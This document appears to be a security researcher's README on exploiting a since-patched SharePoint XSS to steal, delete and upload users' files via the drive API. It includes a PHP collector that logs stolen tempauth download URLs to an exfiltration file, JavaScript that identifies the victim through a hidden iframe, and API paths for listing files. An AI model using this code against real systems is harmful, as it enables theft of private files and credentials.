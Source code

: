 # SharePoint JavaScript/API Investigation

Due to discovery of XSS in SharePoint on-premise and their hosted solutions, I was asked to see what could be done with the XSS. I hosted a few JavaScript files during the investigation since I was able to inject a script tag and use the src attribute to link to the hosted files.

I also was able to use a version of SharePoint that had the aspx file rendering and I was able to use that to create files with embedded payloads and made the files look like they belonged in SharePoint.

What was I able to do if a user accessed the XSS:
- Steal any user's files (hidden,private,public)
- Delete any user's files
- Upload any file to the user's sharepoint drive
- Anything else the API allowed us to do

The interactions happened against the drive API and also could be done using graphql.

## How could you steal file?
Well, the API created URLs with an authorization token. By stealing that URL, it was easy to just access

For the listing of all of a user's files, it was simple enough to just call out to the user's drive API (depends on API version):
- var t = "/_api/v2.1/drive/items/root";
- var t = "/_api/v2.0/drive/items/root/children";

There are just enough changes in version 2.0 to 2.1 of the drive API to have to write separate scripts.

The API provided us with a url with the tempauth parameter that allows anyone with that URL access the item for a decent amount of time.
```
https://REDACTED-my.sharepoint.com/personal/REDACTED/_layouts/15/download.aspx?UniqueId=REDACTED&Translate=false&tempauth=<<<<TOKEN!!!>>>>&ApiVersion=2.1
```

### What is in spimage.php?

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: image/png');

$url = $_GET["auth_url"];
$file_name = $_GET["name"];
if(isset($_GET['auth_url']) && !empty($_GET['name']))
{
	$data = "<p><a href='".base64_decode($url)."'>".$file_name."</a></p>\r\n";
	file_put_contents('./REDACTED/xfil.html', $data , FILE_APPEND);
}
echo file_get_contents('http://REDACTED/tiny.png');
?>

```

## Upload and Delete
The Upload and Delete required obtaining tokens from another requests This can be seen in the following function calls of delete_files.js
- stealBearer
- getDigest

In the Upload I obtained the token in a slightly different way:
- getDigest

## Who is our victim?
The victim is anyone who accesses the XSS or pages (if you are able to use aspx). 

I did not have a lot of time to look into discovering who the victim would be, so I had to come up with a quick and dirty way of identifying them for requests needing their username:
```
document.write("<iframe src='/' id='whoareu' border=0 width=1 height=1></iframe>");const myTimeout = setTimeout(whoareu, 2000);
function whoareu() {
	var theurl=document.getElementById('whoareu').contentWindow.location.href;
	user = new URL(theurl).pathname.split('/')[2];
	// REST OF FUNCTION REMOVED AS NOT NECESSARY
}
```
In the above, I needed an iframe to hit the root of the SharePoint instance and it would redirect the user to their directory. Then I could parse the information out to be used for the Upload and Delete functions.

## What happened?
Well, the XSS was patched earlier this year and my other XSS findings in the past have been patched. Depending on deployment, you may be able to just create aspx files to embed your payloads. However, there are always 3rd party components that have plenty of bugs.

My favorite part while working on this was when it executed against someone I was testing with. I was able to download their keepass file that was only accessible to them.

